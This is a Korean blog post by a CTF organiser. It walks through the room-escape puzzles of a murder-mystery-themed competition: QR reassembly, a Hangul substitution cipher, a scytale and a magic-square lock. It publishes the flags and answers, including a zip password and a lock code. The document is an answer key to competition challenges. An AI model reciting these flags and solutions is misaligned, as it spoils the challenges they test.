> 이 연재는 1편 **기획과 준비**, 2편 **메인 의뢰**, 3편 **추가 의뢰**로 구성됩니다. [1편: 기획과 준비](/posts/roomescape-ctf-part-1/) · [3편: 추가 의뢰](/posts/roomescape-ctf-part-3/)

**목차**

1. [대회 개요](#overview)
2. [시스템](#system)
3. [메인 의뢰](#main-request)
   - [수사 개요](#investigation-overview)
   - [수사 장소 1: 수사 자료실](#records-room)
   - [수사 장소 2: 사이버수사대](#cyber-investigation-room)
   - [수사 장소 3: 학교 전산망](#campus-network)
   - [수사 장소 4: CCTV 관리실](#cctv-room)
   - [수사 장소 5: 전공 강의실](#lecture-room)
4. [수사보고서](#investigation-report)

<span id="overview"></span>

## 대회 개요

메인 의뢰는 총 5개의 시나리오로 이루어져 있으며, 전체가 하나의 유기적인 스토리라인으로 연결되어 있습니다. 본 글에서는 각 시나리오에 배치된 주요 문제들의 핵심 포인트와 함께, 기획 의도를 상세히 짚어보고자 합니다. 출제자가 어떤 기술적 목표와 고민을 거쳐 이 시나리오를 설계했는지 그 비하인드 스토리를 함께 즐겨주셨으면 합니다.

<span id="system"></span>

## 시스템

대회 운영 방식이 다른 CTF와 크게 달랐기 때문에 새로 도입한 특수한 시스템들이 존재합니다.

1. 메인 의뢰와 추가 의뢰

   대회의 이름에서 짐작할 수 있듯이, 참가자들은 온갖 의뢰를 처리하는 '불법 탐정 팀'이라는 콘셉트로 활동합니다. 문제는 총 28개로 구성된 메인 의뢰와 기존 Jeopardy 방식을 사용한 추가 의뢰로 나뉘어 공개됩니다.

2. 문제 트리

   메인 의뢰는 방탈출 문제와 워게임으로 구성되었습니다. 방탈출 문제를 풀어 워게임 파일이나 문제 서버 주소를 얻은 후, 이를 기반으로 본격적인 워게임을 해결하는 방식으로 진행됩니다. 이러한 문제 해결 흐름을 지정해 놓은 것이 바로 문제 트리이며, 이를 참가자들에게 공개하여 각 문제의 선행 조건을 안내했습니다. 특히 트리의 연결 구조 자체가 다음 문제를 풀기 위한 중요한 힌트였기에, 방에 진입하기 전 기본적으로 열려 있는 문제들의 설명을 읽고 어떤 상황이 벌어질지 미리 예측하고 출발했다면 훨씬 빠른 풀이가 가능했을 것입니다.

3. 수사 보고서

   메인 의뢰는 살인 사건을 다룹니다. 참가자들은 방을 돌아다니고 워게임을 해결하며 정보를 모은 뒤, 이를 해석해 수사 보고서를 작성하도록 했습니다. 수사 보고서에는 별도로 최대 3000점을 부여했으며, 참가자가 AI와만 소통하는 것이 아니라 팀원과 소통하며 적극적으로 생각해 보도록 하고 싶었습니다.

4. 퍼펙트 클리어

   메인 의뢰에는 5개의 수사 공간이 지정되어 있으며, 각 수사 공간에서는 5개의 방탈출 문제 또는 워게임을 탐색할 수 있었습니다. 방탈출 문제를 잘 푼 참가자에게 더 높은 점수를 주기 위해 다음 세 조건을 만족하면 해당 수사 공간을 '퍼펙트 클리어'한 것으로 인정하고, 500점에서 200점까지 변하는 동적 점수를 부여했습니다.

   - 해당 수사 공간의 플래그를 모두 제출(5개)
   - 해당 수사 공간의 방에 한 번만 입장
   - 해당 수사 공간의 방에서 진행하는 문제에서 힌트를 사용하지 않기

5. 메인 의뢰 클리어 보너스

   참가자들이 추가 의뢰(Jeopardy)에만 집중할 가능성이 있다고 판단했기 때문에 메인 의뢰의 28문제에 대한 플래그를 모두 제출하면 1000점의 고정 점수를 부여했습니다.

6. 힌트

   힌트 시스템은 기존 CTF에도 있었지만, 참가자 중 보안에 익숙하지 않은 사람이 있었고 모든 참가자가 메인 의뢰를 클리어하는 것이 목적이었기 때문에 힌트에서 정답이나 플래그까지 알려주기로 했습니다. 각 문제의 마지막 힌트를 사용하면 누구나 문제를 해결할 수 있도록 구성했습니다. 방탈출 문제는 비밀번호까지만 공개해 방에 다시 들어가도록 했고, 워게임은 익스플로잇 코드와 복호화·추출한 데이터 또는 플래그를 제공했습니다.

7. 팀 디스코드

   방탈출 문제 특성상 동적 플래그를 적용하기 어려웠습니다. 따라서 부정행위를 방지하기 위해 대회 디스코드 서버에 팀별 채널을 만들어 그 안에서만 소통하도록 했습니다.

<span id="main-request"></span>

## 메인 의뢰



메인 의뢰는 이민성 교수의 사망 사건을 주제로 구성했으며, 참가자는 5개의 수사 공간에서 사건에 대한 정보를 수집해야 합니다.
메인 의뢰는 12개의 방탈출 문제와 16개의 워게임, 총 28문제로 구성했습니다.

참가자는 [수사 개요]의 세 문제를 모두 해결한 후 각 수사 공간의 교내 위치를 파악해 이동해야 했습니다. 다섯 수사 공간 중 어느 곳을 먼저 방문해도 상관없도록, 한 수사 공간에서 쓰이는 정보가 다른 수사 공간에서 필요하지 않게 문제를 구성했습니다.

<span id="investigation-overview"></span>

### [수사 개요]



[수사 개요]는 일종의 입장 문제로, 이곳의 문제를 모두 해결해야 각 수사 공간에 해당하는 방으로 이동할 수 있습니다.

#### [수사 개요-1] 수사 의뢰



수사 의뢰는 일종의 sanity check 문제로, PDF를 열고 최하단의 플래그를 찾아 입력하는 간단한 문제였습니다.

문서에는 이민성 교수의 사망 사건에 대한 정보를 조사하라는 내용이 있으며, 하단에는 [수사 개요-2]와 [수사 개요-3]에 대한 설명이 있습니다.

> SHA{OPEN_THE_CASE}
>

#### [수사 개요-2] 수사 참고자료

[수사 개요-2]에서는 QR 코드를 복구해 얻은 비밀번호로 `수사 참고자료.zip`의 잠금을 해제하도록 안내하며, `pieces.zip`과 `수사 참고자료.zip`이 주어집니다. `pieces.zip`을 열어보면 다음과 같은 파일이 총 25개 있습니다.



이 파일들을 이용해 QR 코드 조각을 맞추는 퍼즐 문제였습니다.

원본 QR 코드의 해상도는 45×45이며, 가로 5개와 세로 5개의 총 25개 조각으로 나누어 바깥쪽 경계선만으로는 맞출 수 없게 만들었습니다. 그렇다면 어떻게 해결해야 할까요?
조각을 맞추는 단서는 각 이미지의 패딩에 있습니다. 이미지를 그림판으로 열고 페인트를 선택한 후 빈 공간을 누르면 다음과 같이 숨겨진 표식이 나옵니다.



이 표식은 출제자가 직접 그린 것으로, 모든 조각에 표식이 있으며 인접한 조각에는 같은 모양의 표식이 있습니다. 이 표식을 단서로 QR 퍼즐을 맞추면 됩니다.





[수사 개요] 문제는 이후 수사 공간에서 병목이 생기지 않도록 시간을 분산하기 위해 AI가 해결하기 어렵게 만드는 것이 의도였습니다. 실제로 이 QR 퍼즐은 [수사 개요-3]과 함께 대회 초반의 병목을 줄이는 데 도움이 되었다고 생각합니다.

QR 코드를 복구한 뒤 스캔하면 16진수 문자열을 얻을 수 있습니다. 이 문자열을 비밀번호로 `수사 참고자료.zip`의 압축을 해제하면 `수사 참고자료.pdf`를 얻을 수 있습니다.
`수사 참고자료.pdf`에는 용의자 6명의 간략한 소개와 각 수사 공간에서 수집할 정보 및 수행할 행동을 적었으며, [수사 개요-1]과 마찬가지로 문서 최하단에 플래그를 배치했습니다.



> SHA{CHOOSE_YOUR_TRACE}

<details markdown="1">
<summary>힌트 1</summary>

조각에 있는 숨겨진 요소를 찾아보세요

</details>

<details markdown="1">
<summary>힌트 2</summary>

그림판 → 페인트 → 빈 공간 클릭

</details>

<details markdown="1">
<summary>힌트 3(정답)</summary>

5585edc64f5ed23e390af11403772c93

</details>

#### [수사 개요-3] 수사 장소

방 안이 아니라 대회 장소에서 노트북으로 푸는 방탈출 문제입니다. 암호화된 수사 장소를 복호화하는 것이 목표이며 암호문은 다음과 같습니다.

> \<G6G0I0D5G9D\>: \<H9BE6BN0AA40B\> 308, 309<br>
> \<G0H9F2G6G0C09\>: \<E9D09A40B\> 401-1, 406<br>
> \<N0AA5I2BG0BE0H\>: \<A2BG2DA4HN0AA40B\> 303, 304, 305, 306<br>
> \<GG9GG9L9F9A40BD9G9D\>: \<I0H3BA40N0AA40B\> 103, 104, 105, 106<br>
> \<I2BA4HA0HH89G9D\>: \<I2HF4A9G6DA40B\> 112, 3
>
> [수사 개요-3] : SHA{\<G6G0\>\_\<I0HG4\>\_\<N40AH9B\>}
>

다음 이미지 파일도 함께 주어집니다.



먼저 `참고.png`를 보면 암호문이 A부터 N까지의 알파벳 14개와 0부터 9까지의 숫자 10개로 구성되어 있음을 알 수 있습니다.
암호문이 수사 장소를 나타낸다는 점을 이용해 `수사 참고자료.pdf`에 나온 다섯 수사 장소인 '수사 자료실', '사이버수사대', '학교 전산망', 'CCTV 관리실', '전공 강의실'과 대조해 보면 각 알파벳은 한글 자음, 숫자는 한글 모음에 대응됩니다. 예를 들어 'A'는 'ㄱ', '0'은 'ㅏ'에 대응됩니다. 이 규칙으로 복호화한 결과는 다음과 같습니다.

> 수사자료실: 인문학관 308, 309<br>
> 사이버수사대: 미래관 401-1, 406<br>
> 학교전산망: 건설공학관 303, 304, 305, 306<br>
> 씨씨티비관리실: 자연과학관 103, 104, 105, 106<br>
> 전공강의실: 정보기술관 112,3
>
> [수사 개요-3] : SHA{수사_장소_확인}
>

이 문제를 해결하면 각 수사 장소에 해당하는 교내 건물과 교실이 드러나며, 이후 참가자들은 수사 장소를 찾아 자유롭게 이동할 수 있습니다.

> SHA{수사_장소_확인}

<details markdown="1">
<summary>힌트 1</summary>

단일 치환 암호

</details>

<details markdown="1">
<summary>힌트 2</summary>

A → ㄱ<br>
0 → ㅏ

</details>

#### 획득할 수 있는 정보

[수사 개요]에서는 피해자와 용의자 6명의 이름, 얼굴, 직업, 나이 정보를 얻을 수 있습니다. [수사 개요-2]를 해결한 후 주어지는 PDF에는 각 수사 공간에서 해결할 과제와 획득할 정보가 안내되어 있습니다.

<span id="records-room"></span>

### 수사 장소 1 - 수사 자료실





[수사 자료실]로 이동하면 먼저 아래와 같은 문서를 볼 수 있습니다.

>
>
>
> 여기까지 들어오셨다면 제가 알려드릴 수 있는 건 이 정도가 전부입니다.
> 대놓고 자료를 빼돌리면 저도 위험해집니다.
>
> 먼저 앞 테이블에 **글자가 적힌 띠[수사 자료실-1]**를 두었습니다. 그냥 펼쳐 보셔서는 읽을 수 없을 겁니다.
> 제대로 읽으시면 다음에 어디를 봐야 할지 알 수 있습니다.
>
> 그리고 **신고 처리 내역서[수사 자료실-4]**를 확인해 보십시오. 증거가 될 수도 있습니다.
>
> 마지막으로 **증거품 테이블**을 잘 탐색해보십시오.
> 외부에서 접근할 수 있는 **기록 관리 시스템[수사 자료실-5]**의 접속 정보를 몇 조각으로 나눠 두었습니다.
> 이 시스템은 취약하니 이쪽에서 **참고인 진술조서**를 수집해 주십시오.
>
> 누가 들어오기 전에 필요한 것만 확인하시고 원래대로 돌려놓으십시오.
>

위 문서는 의뢰인인 경찰이 남긴 것으로, 문제 트리 최상단의 세 문제로 유도하기 위해 작성되었습니다.

수사 참고자료에서도 해당 문서를 확인하라고 언급했으며, 참가자가 방에 들어오자마자 읽을 수 있도록 문 앞에 배치했습니다.

#### [수사 자료실-1] 뒤틀린 기록

```
S O _ / _ L H L T O C _ A L R N E T { _ U _ N A U T T T T B N H H H R L R E } E A E
```

문서와 함께 위와 같은 문자가 적힌 띠와 빨대 두 개를 발견할 수 있습니다. 띠는 본래 세로로 배치되어 있으며, 문서에는 이 띠의 내용을 읽으라고 쓰여 있습니다. 둥근 막대와 긴 띠로 구성된 고전 암호인 스키테일이므로, 막대에 띠를 감아 읽으면 됩니다.

띠의 문자 배치 주기는 6개이며, 현장에서는 두꺼운 빨대를 이용해 읽어야 했습니다. 글자를 읽으면 다음과 같은 문자열이 나옵니다.

```
S	H	A	{	U	N	R
O	L	L	_	T	H	E
_	T	R	U	T	H	}
/	O	N	_	T	H	E
_	C	E	N	T	R	A
L	_	T	A	B	L	E
```

[수사 자료실-1]의 플래그와 함께 [수사 자료실-2]의 문제 위치가 나옵니다. 소품 배치 범위가 작아 위치 정보 자체는 큰 의미가 없었습니다.

> SHA{UNROLL_THE_TRUTH}

<details markdown="1">
<summary>힌트 1</summary>

scytale

</details>

#### [수사 자료실-2] 용의자 증언

스키테일의 복호화 결과에 따라 이동하면 4자리 숫자 자물쇠가 달린 상자와 종이 한 장이 있습니다.



위 문제의 3×3 칸에는 3과 9가 각각 위쪽과 오른쪽 칸에 들어 있습니다. 상단에는 1부터 9까지의 숫자가 있으며, 이 중 3과 9에는 빗금이 그어져 있습니다. 이를 통해 1부터 9까지의 숫자를 모두 채워야 함을 알 수 있습니다.
그 옆의 화살표는 각각 가로(1행, 2행, 3행), 세로(1열, 2열, 3열), 대각선(/, \)을 가리키며, 각 화살표 끝의 물음표는 등호로 연결되어 있습니다.
따라서 1부터 9까지의 숫자를 모두 사용해 가로, 세로, 대각선의 합이 같도록 3×3 칸을 채우는 마방진 문제임을 알 수 있습니다.

##### 마방진의 해결

1부터 9까지의 숫자를 모두 넣어야 하므로 전체 합은 45이고, 각 행의 합은 15입니다. 따라서 가로, 세로, 대각선의 합이 모두 15가 되도록 만드는 것이 목표입니다.

먼저 중앙 칸에 숫자를 넣어야 합니다. 중앙을 기준으로 마주 보는 두 칸의 합은 모두 같아야 하며, 1부터 9까지의 숫자에서는 (1, 9), (2, 8), (3, 7), (4, 6)의 쌍을 만들 수 있습니다. 사용되지 않은 5가 중앙에 들어가며, 3과 9의 반대편에는 각각 7과 1을 넣을 수 있습니다.
나머지 칸은 연립 방정식으로 채울 수 있으며, 결과는 다음과 같습니다.



##### 비밀번호 알아내기

마방진 아래에는 덧셈식이 있습니다.



결괏값이 `????`로 표시되어 있으며, 계산한 네 자리 수로 숫자 자물쇠를 열 수 있습니다.

식의 그림은 위 마방진의 테두리를 의미합니다. 예를 들어 `ㄱ` 모양은 왼쪽 아래의 6을, `ㄷ` 모양은 오른쪽의 9를 가리킵니다.
이 규칙에 따라 식을 완성하면 다음과 같습니다.



식을 계산하면 `5179`가 나오며, 이 숫자로 자물쇠를 열면 `피의자 신문조서`를 얻을 수 있습니다.
신문조서는 `수사 참고자료`에서 확인한 용의자 6명에 대한 문서입니다. 각 문서 오른쪽 위의 플래그 조각을 모으면 플래그를 얻을 수 있습니다.

> SHA{TRUST_BUT_VERIFY}
>

플래그 조각을 따라 신문조서를 넘기다 보면 메모가 떨어집니다.



메모에는 용의자 최옥순의 태도가 수상하니 범죄 경력을 조회하라는 지시와 노트북 비밀번호가 적혀 있습니다.

<details markdown="1">
<summary>힌트 1</summary>

sum = 15

</details>

<details markdown="1">
<summary>힌트 2</summary>

```text
8 3 4
1 5 9
6 7 2
```

</details>

<details markdown="1">
<summary>힌트 3(정답)</summary>

5179

</details>

#### [수사 자료실-3] 범죄 경력 조사

지시 메모에 따라 노트북의 잠금을 해제하면 범죄 경력 조회 사이트를 확인할 수 있습니다.



이름과 생년월일을 입력해 범죄 경력을 조회할 수 있습니다. 피의자 신문조서에서 확인한 최옥순의 정보를 입력하면 다음과 같은 결과가 나옵니다.

